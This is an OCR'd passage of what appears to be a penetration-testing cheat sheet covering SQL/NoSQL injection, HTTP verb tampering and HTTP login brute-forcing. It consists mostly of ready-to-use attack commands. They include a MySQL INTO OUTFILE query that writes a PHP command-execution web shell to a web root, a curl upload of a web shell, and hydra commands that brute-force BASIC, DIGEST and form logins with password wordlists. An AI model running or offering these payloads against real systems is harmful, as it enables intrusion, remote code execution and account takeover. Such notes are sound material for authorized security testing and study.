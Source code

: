     - `versionedkeywords`  
      Encloses each non-function keyword with (MySQL) versioned comment
    - `versionedmorekeywords`  
      Encloses each keyword with (MySQL) versioned comment  

**NoSQLi**
 
 - `NoSQLMap` (... then follow the assistant)
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection 

#### MySQL access to remote code execution (RCE)

 - `SELECT '<?php echo system($_GET["c"]) ?>' INTO OUTFILE '/var/www/html/upload/shell.php' FROM mysql.user LIMIT 1`


## HTTP method/verb tampering

... Changing the HTTP methods (`GET`, `POST`, `PUT`, ...) to provoke different behaviour of the application.

 - `curl -v -X GET 1.2.3.4`
 - `curl -v -X HEAD 1.2.3.4`
 - `curl -v -X POST 1.2.3.4`
 - `curl -v -X POST --data "param1=value1&param2=value2" 1.2.3.4`
 - `curl https://pentest-experts.com/upload/ --upload-file webshell.php`
 - `nmap -p 80 --script http-method-tamper --script-args 'http-method-tamper.paths={/upload/,/protected/index.php}' 1.2.3.4`
  - Enumerarte allowed methods using nikto  
   `nikto -h "https://pentest-experts.com/search.php?q=xxx"`
 - Try using a not allowed method on purpose to provoke a error message


## HTTP login bruteforcing

**BASIC authentication**

 - `hydra -l admin -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`  
    use `-s` to specify a port (e.g. `-s 8080`)
 - `hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`

 Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for a insecure server configuration.

**DIGEST authentication**

This is a challenge response auth. and much more secure / difficult to attack then BASIC auth.

 - `hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`  
   Hydra can detect the type of auth. and that's why the same command can attack BASIC and DIGEST auth.

**Web login form**

 - `hydra -l admin -P /usr/share/wordlists/1000_common_passwords.txt pentest-experts.com http-post-form "/login.php:user=^USER^&password=^PASS^:F=incorrect"`  
    `^USER^` and `^PASS^` get replaced by the credentials from the list(s) and `:F=` specifies a flag to determin if the login failed  
    Use for example `:S=302` to set the success flag to the value `302`, which occure in a HTTP redirect  
    Use `-s 8080` to specify an non-standard port - like 8080 in the example

